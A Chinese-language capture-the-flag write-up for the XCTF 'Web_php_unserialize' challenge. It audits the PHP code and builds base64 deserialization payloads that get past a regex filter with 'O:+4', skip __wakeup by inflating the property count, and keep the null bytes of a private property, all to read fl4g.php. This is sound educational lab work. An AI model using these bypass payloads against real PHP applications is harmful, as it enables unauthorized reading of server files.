








## 0x00 - 题目描述

地址：<https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5409&page=1>

PHP 反序列，老题新做了。



打开 `index.php` 是这样的



<!-- MORE -->


## 0x01 - 解题过程

先审计一下代码，执行过程是从 17 行开始。

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

### 代码审计

首先得用 GET 传入 var ，不然的话就高亮 index.php 文件源码 （25行） 

```php
if (isset($_GET['var'])) { 
    
} else { 
    // 高亮 index.php 的源码，效果就是题目描述的截图
    highlight_file("index.php"); 
} 
```

接着对传入的 var 变量进行 base64 解码

```php
$var = base64_decode($_GET['var']); 
```

解码后进行 `正则匹配` ，匹配到的话直接结束（`die`）并显示 **stop hacking!**

```php
if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
```

如果没匹配到就**反序列化** (后面再解释啥是 `序列化` 和 `反序列化`)。

Q: 反序列化啥呢？

A: 明显是要反序列化 2-16 行的 `Demo` 对象

<br>

首先如果**构造Demo类**，会

1. 执行 `__construct` 方法，将传入的 `$file` 赋值给本地的**私有**方法 $file。请给私有画上重点，后面个**巨坑**跟这个私有有关系。
2. 销毁时执行 `__destruct` 方法，高亮本地变量 `file` 文件的代码

```php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
```

Q: 那 `__wakeup` 这个方法是干吗用的？

A: 当 **反序列化构造这个类** 时执行 `__wakeup` 方法，会将本地变量 `file` 重新设置为 file

<br>

还有个注释，明示了 flag 在 fl4g.php 文件


### 序列化和反序列化

- 在php中，序列化用与存储或传递php的值的过程，同时不丢失其结构和数据类型。
- 若被反序列化的变量是一个对象，在成功重新构造对象之后，PHP会自动地试图去调用`__wakeup()`魔术方法（如果存在的话）

例子

```php
class User {
	public $name;
	private $male;
	protected $money = 1000;

	public function __construct($data, $male) {
		$this->data = $data;
		$this->male = $male;
	}
}
$number = 66;
$str = 'jerry';
$bool = true;
$null = NULL;
$arr = array('a' => 1, 'b' => 2);
$user = new User('tom', true);

var_dump(serialize($number));
var_dump(serialize($str));
var_dump(serialize($bool));
var_dump(serialize($null));
var_dump(serialize($arr));
var_dump(serialize($user));
```


输出结果

```php
string(5) "i:66;" 
string(12) "s:5:"jerry";" 
string(4) "b:1;" 
string(2) "N;" 
string(30) "a:2:{s:1:"a";i:1;s:1:"b";i:2;}" 
string(93) "O:4:"User":4:{s:4:"name";N;s:10:"Usermale";b:1;s:8:"*money";i:1000;s:4:"data";s:3:"tom";}"
```

 更多关于序列化的资料请参考

> [php 序列化与反序列化](https://blog.csdn.net/qq_35958788/article/details/82975885)


### 获取 flag

#### 构造 序列化

根据注释的明示直接访问 fl4g.php ，果然是一片空白。

不过证明的确实有这个文件，并且 flag 就存在这个文件的代码中，需要我们使用 `highlight_file` 方法来显示出来。




构造 `Demo` 类，传入 `$file = fl4g.php` ，然后反序列化

```php
<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

$file = 'fl4g.php';
$demo = new Demo($file);
$s = serialize($demo);
print_r($s);
echo("<br>");
print_r(base64_encode($s));
?>
```

> 可以使用 在线php 方便的调试 php 代码
>
> <http://www.dooccn.com/php/>

得到结果序列化结果：

`O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}`

base64 编码后：

`Tzo0OiJEZW1vIjoxOntzOjEwOiIARGVtbwBmaWxlIjtzOjg6ImZsNGcucGhwIjt9`

#### 绕过正则匹配

直接传进去，果然被匹配到了



不清楚正则匹配的话，在这个网站上([regextester](https://www.regextester.com/))可以知道匹配到的部分是前面的 `O:4:`



可以在 `4` 前面加上 `+` 来绕过，因为在 php 语法中，`+4` = `4`

```php
print(4);
print("<br>");
print(+4);
print("<br>");
print(-4);
```


#### 利用漏洞，绕过 __wakeup

传入绕过正则匹配并编码后的载荷：

```
var?=TzorNDoiRGVtbyI6MTp7czoxMDoiRGVtbyAgZmlsZSI7czo4OiJmbDRnLnBocCI7fQ
```

果不其然的显示回 index.php 的源码了。



这是因为 **反序列化 Demo 对象**后调用了 `__wakeup` 方法，重新将传入的 `fl4g.php` 设置为 `index.php` 了

```php
function __wakeup() { 
    if ($this->file != 'index.php') { 
        //the secret is in the fl4g.php
        $this->file = 'index.php'; 
    } 
} 
```


这个时候就要提到著名的反序列化漏洞了。

在之前，`O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}` 中的 `:1:` 是代表这个对象中有一个属性，上面的 [序列化和反序列化](#序列化和反序列化) 的最后一个例子也是同理，只不过在**构造方法**中多了一个 `data` 属性，所以是 `4` 。

<br>

`__wakeup` 漏洞就是与整个属性个数值有关。当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 `__wakeup` 的执行。

因此最后的序列化是：

`O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}`

编码后：

`TzorNDoiRGVtbyI6Mjp7czoxMDoiRGVtb2ZpbGUiO3M6ODoiZmw0Zy5waHAiO30=`

载荷是：

```
var?=TzorNDoiRGVtbyI6Mjp7czoxMDoiRGVtb2ZpbGUiO3M6ODoiZmw0Zy5waHAiO30=
```


#### 巨坑-私有属性

结果居然还是 `index.php` 的源码！！！

**WTF ???**

经过多方百度后，发现了一个**盲点**——由于 `Demo` 类的 `file` 属性是**私有属性**序列化之后，在类名前后会有 %00 阻断。

并且在 `s:10:"Demofile"` 也有提示，`Demofile` 是 8 个字符，为什么是 `s:10`  呢？就是因为前后有 %00

图形化就是这样：


`%44%65%6d%6f`进行 hex 转化后 就是 `Demo` ，可以在这个网站上测试 [Hex编码/解码](https://www.107000.com/T-Hex/)

**坑来了：**

如果直接复制文本样式，在别的地方进行base64编码会**丢失掉 `%00` 的信息**！！再 解码->反序列化 自然与我之前序列化的 Demo **不是同一个东西**

<br>

Q: 那咋办呢？

A: 在 php 中就把**替换**和**base64编码**弄好！

执行以下代码：

```php
<?php

class Demo
{
    private $file = 'index.php';
    public function __construct($file)
    {
        $this->file = $file;
    }
    function __destruct()
    {
        echo @highlight_file($this->file, true);
    }
    function __wakeup()
    {
        if ($this->file != 'index.php') {
            //the secret is in the fl4g.php
            $this->file = 'index.php';
        }
    }
}

$file = 'fl4g.php';
$d = new Demo($file);
$s = serialize($d);
// O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
$s = str_replace(':1:', ':2:', $s);
$s = str_replace('O:4', 'O:+4', $s);
print_r($s);
print_r("<br>");
print_r(base64_encode($s));
```

使用了 `str_replace` 方法来进行替换

这样编码后的结果就还是带有 `%00` 的了：

`TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`



载荷

```
?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```




## 0x02 - 技术总结

1. __wakeup 方法是反序列化后调用的方法，可以利用**超属性**的方法来绕过
2. 在 php 中 `4` = `+4` ，可以用来绕过正则匹配
3. 私有属性序列化后会在属性名前加上类名，类名左右会带上 `%00` 


## 0x03 - 参考链接：

[攻防世界 Web_php_unserialize的坑](https://blog.csdn.net/a3320315/article/details/101406818)

[php 序列化与反序列化](https://blog.csdn.net/qq_35958788/article/details/82975885)

[__wakeup()函数漏洞以及实际漏洞分析](https://blog.spoock.com/2016/11/03/php-wakeup/)

[[wp] 攻防世界 Web_php_unserialize](https://blog.csdn.net/qq_40884727/article/details/101162105)